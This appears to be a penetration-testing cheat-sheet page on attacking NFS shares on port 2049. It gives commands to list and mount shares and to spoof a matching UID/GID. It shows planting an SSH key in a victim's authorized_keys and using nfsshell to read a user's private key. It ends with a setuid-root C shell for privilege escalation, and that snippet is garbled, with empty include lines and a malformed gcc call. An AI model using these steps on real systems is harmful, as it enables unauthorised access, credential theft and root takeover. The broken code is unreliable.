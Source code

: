```yaml
---
description: >-
  NFS security is partially based on the remote user mounting the filesystem
  having the same UID (User ID) and GID (Group ID) as the owner of that share.
---
```


# 2049 - NFS

We can find a NFS share if we query port 111 \(RPC\)

NFS security is partially based on the remote user mounting the filesystem having the same UID \(User ID\) and GID \(Group ID\) as the owner of that share. Restrictions can also be placed into the **/etc/hosts.allow** and **/etc/hosts.deny** files, but we won’t go into that here. Suffice to say, using the UID and GID as a basis for security isn’t the best way of doing it.

### Show shares:

`showmount -e {IP Address}` 

### Mount a share:

* Don't forget to create the share you mounting to \(/mnt/nfs\)...

`mount {IP Address}:/vol/share /mnt/nfs -nolock nfsserver=3` 

Example:

`root@kali:~# mount -t nfs 192.168.0.42:/var/nfs /mnt/test1 -o nolock` 

\*Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI \(more secure as it wont end up in bash\_history\) 

**Using username and password:** 

`mount -t cifs -o ro,domain=[domain],username=[username],password=[password],sec=ntlmv2 //hostnameOrIP/Share /path/to/localdir` 

Example: 

`mount -t cifs nfsserver=3 -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs` 

### Unmount

`root@kali:~# umount -f -l /mnt/test1` 

### UID/GID Manipulation 

Can use nfsshell or use bash 

Add new user with the following commands: 

```text
groupadd --gid 1005 peter 
adduser peter --uid 101 --gid 1005
```

Now we can create ssh keys \(ssh-keygen\) and able copy the ssh key to the nfs share: 

`cat ~/.ssh/id_rsa.pub >> /mnt/peter/.ssh/authorized_keys` 

### Nfsshell 

Link: [https://github.com/NetDirect/nfsshell](https://github.com/NetDirect/nfsshell) or [nfsshell](../../tools/nfsshell.md)

Nfsshell is useful for accessing NFS shares without having to create users with the same UID/GID pair as the target exported filesystem 

**Example**: 

```text
root@kali:/opt/nfsshell# ./nfsshell  
nfs> host 192.168.0.45 
Using a privileged port (1021) 
Open 192.168.0.45 (192.168.0.45) TCP 
nfs> export 
Export list for 192.168.0.45: 
/home/karl               *  
nfs> mount /home/karl 
Using a privileged port (1020) 
Mount `/home/karl', TCP, transfer size 65536 bytes. 
nfs> ls -l 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  . 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .. 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .bash_history 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .bash_logout 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .bashrc 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .lesshst 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .profile 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .ssh 
nfs> cd .ssh 
nfs> ls 
Readdir failed: Permission denied 
nfs> uid 1001 
nfs> gid 1001 
nfs> ls 
. 
.. 
authorized_keys 
id_rsa 
id_rsa.pub 
user.txt 
nfs>  
```

## Shell

We can obtain a shell via running the following code:

```text
cat << EOF >> shell.c
> #include 
> #include 
> #include 
> #include 
> int main()
> {
> setuid(0);
> system("/bin/bash");
> return 0;
> }
> EOF

gcc shell.c shell
./shell
```

